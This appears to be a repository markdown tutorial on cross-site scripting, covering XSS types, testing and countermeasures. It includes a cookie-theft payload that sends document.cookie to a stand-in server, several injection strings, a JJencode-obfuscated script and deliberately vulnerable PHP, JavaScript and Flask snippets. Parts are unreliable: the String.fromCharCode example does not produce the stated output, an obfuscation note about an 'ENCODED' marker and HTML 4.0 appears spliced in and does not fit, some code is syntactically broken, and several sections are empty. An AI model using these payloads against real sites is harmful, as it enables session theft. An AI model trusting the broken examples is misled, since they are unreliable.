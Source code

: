 # XSS 

## Lexic

* [JavaScript](items/javascript.md)
* [Cookies](items/cookies.md)
* [Web Client](items/web_client.md)
* [Web Server](items/web_server.md)
* [XMLHttpRequest](items/xhr.md)
* [WAF](items/waf.md)
* [Proxy](items/proxy.md)
* [SOP](items/sop.md)
* [HTML](items/html.md)
* [DOM](items/dom.md)

## Nomenclature 
### XSS stands for:
Cross Site Scripting
### Exploitability
Easy / Medium / Difficult according to the context
### Impact : 
Several: `disfigurements, theft of cookie, unauthorized files access, DoS, control victim browser, ` 
# Cross Site Scripting 
-----
## Overview 
The XSS attack is an attack realized when data submit from end user is `interpretted by a browser` through [Javascript](items/javascript.md) language mostly.
It is classified among `injection attacks`.  Early on, it was categorized as **three** kinds, `stored`, `DOM based` and `reflected`. 
* These three types were defined as follows :

  * __Stored XSS__: generally occurs when server stocks submitted data from one user and then this data could be seen by others users : in a message log, in user log, in user credentials, in message form, in user cv.
 
 `Client -> Server -> Users of the site (possibily including attacker)`

  * __Reflected XSS__ : when the user supplied data is automatically replied to the same user without escapping from the server.
 
 `Client -> Server -> Client`

  * __DOM based XSS__ : when the user input is not sent to the server but is used to automatically update its `DOM`.
 
 `Client -> Client`

* This classification was quickly deprecated. To clarify it, the research community proposed two new terms to help organize the types of XSS that can occur :
  * **Server XSS**
  * **Client XSS**

### Server XSS 
---
Server XSS occurs when untrusted data from user is replied with server generated HTML. In this case, the entire vulnerability is in **server-side code**, and the browser is simply rendering the response and executing any valid script embedded within it.

### Client XSS
----
Client XSS occurs when `untrusted data` is used to update the `DOM` with an unsafe call of **client-side script**. 

## How to test for XSS 
* `Graybox` test is the best way to test for XSS. Each HTTP data input and printed after could possibly be an XSS attack vector if the input is not escapped. 
For example this code is vulnerable.
```
    <?php
    echo 'Hello <h1>' .$_GET["name"]. '!</h1>';
    ?>
```
If the value of name is ```</h1><script>alert('xss');</script><h1>``` the browser will get the following answer from the server 
```
    <h1>!</h1>
    <script>alert('xss');</script>
    <h1></h1>
```	


* The best way to perform `black blackbox` XSS test in server is to use a `proxy`, `dirbust` the website and `analyze` all submitted data to the server and inject some HTML characters and analyse the server responses. Submit to check :
  * HTTP headers
  * URL parameters, query string
  * Request body, form data
  * Cookies, API storage 

From all the website submits listed, test with HTML chars (html entities), and look the render in browser. If it is not well escaped (the result is not HTML special character), probably the website is XSS vulnerable.

 
---
## Examples     
### Example 1 : cookie theft 
This code will send the cookie of the user who visit the website containing this payload. 

```
    <img src="nonExistImg" onerror="myFunction()"/>
    <script>function myFunction(){
	window.location = "http://myServer/?cookie".concat("=", document.cookie);
	}
    </script>
```

### Example 2 : XSS with weak js function 

```	
    myFunction(){
	myImg.src = document.getElementById('imgId').value; 
	document.body.appendChild(myImg); 
	}

```
If the user sends ```'); alert('xss'); document.getElement('``` the code will become ```myImg.src = document.getElementById(''); alert('xss'); document.getElementById('imgId').value;```

### Example 3 : Bad escapping
```
   myFunction(){
	userInputEscapped = userInput.replace('<script>', ' ');
	document.appendChild(userInputEscapped);
	}

```
This function appends to the document body the user input. It replaces the user input containing <script> by " ". 
For example, if a user inputs ```<script>alert("test");</script>``` the result will be ```alert("test");``` and then will not be executed.
This kind of escapping is very unuseful. If the attacker choose ```<SCRIPT>alert('test');</SCRIPT>``` the replace method is case sensitive, so the js script will be executed. 
``` 
myFunction(){
	userInputEscapped = userInput.replace('"', ' '); 
	document.body.appendChild(userInputEscapped); 
	}
  ```
In this example the quote char is replaced with ' '. An attacker could attack this implementation by using ```String.fromCharCode(35,120,115,115,34);``` to get ```alert("XSS")```.

### Obfuscation
`Obfuscation` is the deliberate act of creating source or machine code that is difficult for humans to understand. Like obfuscation in natural language, it may use needlessly roundabout expressions to compose statements. Programmers may deliberately obfuscate code to conceal its purpose (security through obscurity) or its logic or implicit values embedded in it, primarily, in order to prevent tampering, deter reverse engineering, or even as a puzzle or recreational challenge for someone reading the source code. This can be done manually or by using an automated tool, the latter being the preferred technique in industry.
#### Example:
Let's assume the following script:
```
alert("Hello, JavaScript" );
```
After an obfuscation with [JJencode](http://utf-8.jp/public/jjencode.html); it looks like:
```
$=~[];$={___:++$,$$$$:(![]+"")[$],__$:++$,$_$_:(![]+"")[$],_$_:++$,$_$$:({}+"")[$],$$_$:($[$]+"")[$],_$$:++$,$$$_:
(!""+"")[$],$__:++$,$_$:++$,$$__:({}+"")[$],$$_:++$,$$$:++$,$___:++$,$__$:++$};$.$_=($.$_=$+"")[$.$_$]+
($._$=$.$_[$.__$])+($.$$=($.$+"")[$.__$])+((!$)+"")[$._$$]+($.__=$.$_[$.$$_])+($.$=(!""+"")[$.__$])+($._=(!""+"")
[$._$_])+$.$_[$.$_$]+$.__+$._$+$.$;$.$$=$.$+(!""+"")[$._$$]+$.__+$._+$.$+$.$$;$.$=($.___)[$.$_]
[$.$_];$.$($.$($.$$+"\""+$.$_$_+(![]+"")[$._$_]+$.$$$_+"\\"+$.__$+$.$$_+$._$_+$.__+"(\\\"\\"+$.__$+$.__$+$.___+$.$$$_+
(![]+"")[$._$_]+(![]+"")[$._$_]+$._$+",\\"+$.$__+$.___+"\\"+$.__$+$.__$+$._$_+$.$_$_+"\\"+$.__$+$.$$_+$.$$_+$.$_$_+"
\\"+$.__$+$._$_+$._$$+$.$$__+"\\"+$.__$+$.$$_+$._$_+"\\"+$.__$+$.$_$+$.__$+"\\"+$.__$+$.$$_+$.___+$.__+"
\\\"\\"+$.$__+$.___+")"+"\"")())();
```
Note : Note that the **ENCODED** above does not appear in encoded files, rather it is the location where the encoded 
host code would appear. Also note that this algorithm does not work in direct mode (that is, putting it in a .js won’t 
work) because it requires a feature that was introduced in HTML 4.0. As a result, it must appear in an HTML page, and that HTML page must declare its need for HTML 4.0 or later using a declaration like this:
```<!DOCTYPE html PUBLIC “-//W3C//DTD HTML 4.0//EN”>```
The **HTML 4.0** 4.0’ string can be replaced by later versions, such as ‘HTML 4.1’ or ‘XHTML 1.0’, etc.

## Counter Measures
* **Rule #1**: **NEVER** trust client. Always perform `input validation` at every single posted by the user to the server. This includes `escaping`, `filtering` and checking everything related to data submit.
* **Rule #2**: Always update `plugins`, `modules`, `core` and all plugged packaged being used in web systems. Indeed, this contributes in limiting XSS flaws risks. This requires mastering and knowing each item used in the system/web site.
* **Rule #3**: `Disable`/`remove` unuseful features/modules cause `more one's web site embeds packages, higher is the risk of XSS vulnerability presence` mostly in CMSs.
* **Rule #4**: Think of using a [WAF](items/waf.md) and think of `deofuscation` methods.
* **Rule #5**: Implement [SOP](items/sop.md) policy `properly`.
 
 Now let's pick up some server side programming languages for more `accurate ` counter measures implementations.
 ### PHP
 -----
 
 ### ASP.Net
 -----
 
 ### C#
 -----
 
 ### Java
 -----
 
 ### Node.JS
 -----
 
 ### Python
 -----
 
  #### Incorrect
  In this part, we will be dealing the Python [Flask library](items/flask.py).
The following is a contrived example of how a **reflected XSS** exploit may occur. If an attacker were to submit a request to `http://example.com/?name=<script>alert(1)</script>` then any user viewing that url would have the javascript executed within the context of their browser.
```
# flask example
@app.route("/")
def hello():
    name = request.args.get('name')
    return "Hello %s" % name
```
  #### Correct
The correct way to prevent XSS attacks is to validate user input and ensure that data rendered by templates is escaped. Using templates in the way they are intended is preferable:
```
# flask example
@app.route("/")
def hello():
    name = request.args.get('name')
    return render('hello.html', name=name)

# where hello.html is:
# <html>Hello {{ name }}</html>
```

Any HTML content that is generated directly within a request handler should use the appropriate escaping function:
```
from flask import escape
@app.route("/")
def hello():
    name = request.args.get('name')
    return "Hello %s" % escape(name)
```
  #### Allowing certain special characters
  The issue is made more complex when we encounter situations where `we need to allow a specific set of special characters, such as the ability to post content containing HTML tags`. In this situation we can either:
  * accept only known good data, 
  * or we can deny all known bad data. 
  Both approaches have pros and cons, with the specific choice of implementation being dependent on the given application. In general however, the following should be the list of priorities:

* **Encoding** - Replace ALL control characters with known safe alternatives
* **Positive validation (whitelist)** - Only allow a specific set of values
* **Negative validation (blacklist)** - Block a specified list of dangerous values

In cases where `positive validation` is used, it should also be coupled with additional sanitization. For example, when allowing certain HTML tags, certain attributes of those tags should be removed, such as event handlers. e.g.:
```
<img src='someimage.jpg' onload='do_evil()'/>
```
Again, the preferable approach is to only `allow known safe attributes`, and sanitize the content of those attribute values. If the content is not sanitized, the following vulnerable code could occur:
```
function add_image(link) {
  document.write('<img src="' + link + '"'></img>'');
}
```
If the preceding JavaScript function is called with the link parameter containing the following value, the function can be exploited to execute arbitrary code:
```
x" onerror="do_evil()
```
A more secure implementation of the above would be:
```
function add_image(link) {
  clean = link.replace(/"/g, '&quot;');
  document.write('<img src="' + clean + '"'></img>'');
}
Note, this is a very specific example for illustration. A more comprehensive approach to sanitization should be taken for larger applications.
```
[Here](items/activates.md) is properly enough written library to help defend against XSS injections.
